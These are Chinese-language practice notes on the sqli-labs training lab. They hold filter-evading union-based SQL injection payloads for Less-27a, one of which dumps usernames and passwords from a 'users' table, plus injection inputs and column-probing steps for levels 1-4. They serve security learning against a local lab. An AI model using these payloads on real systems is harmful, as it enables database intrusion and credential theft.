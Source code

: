```
http://127.0.0.1/sqli-labs/Less-27a/?id=0"/*%09*/unIon%09/*SeleCt*/%091,(SeleCt%09group_concat(column_name)%09from%09information_schema.columns%09where%09table_schema='security'%09and%09table_name='users'),3||"1
```

爆值

```
?id=0"/*%09*/unIon%09/*SeleCt*/%091,(SeleCt%09group_concat(username,0x7e,password)%09from%09users),3||"1
```







## sqli-labs二刷

### less 1~4

#### 类型：

**less-1~4**分别为**有回显的SQL注入**

#### 解题方法

==联合查询==

#### 输入点

```
less 1：?id=1' or 1=1 --+	//字符型
less 2：?id=1 or 1=1 --+		//数值型
less 3：?id=1') or 1=1 --+	//字符型带括号
less 4：?id=1") or 1=1 --+	//字符型带括号
```

#### 输出点

payload

```
less 1：?id=1' and 1=1 --+	?id=1' and 1=2 --+
less 2：?id=1 and 1=1 --+	?id=1 and 1=2 --+
less 3：?id=1') and 1=1 --+	?id=1') and 1=2 --+
less 4：?id=1") and 1=1 --+	?id=1") and 1=2 --+
```

构造 `and = 1=1` 和 `and 1=2` 发现页面变化输出点



#### 解题

1. 判断列数&判断回显地址

   ```
   ?id=0' order by 3 --+	//一共3位数显
   ?id=0' union select 1,2,3 --+	//判断回显地址分别为，2，3
   ```

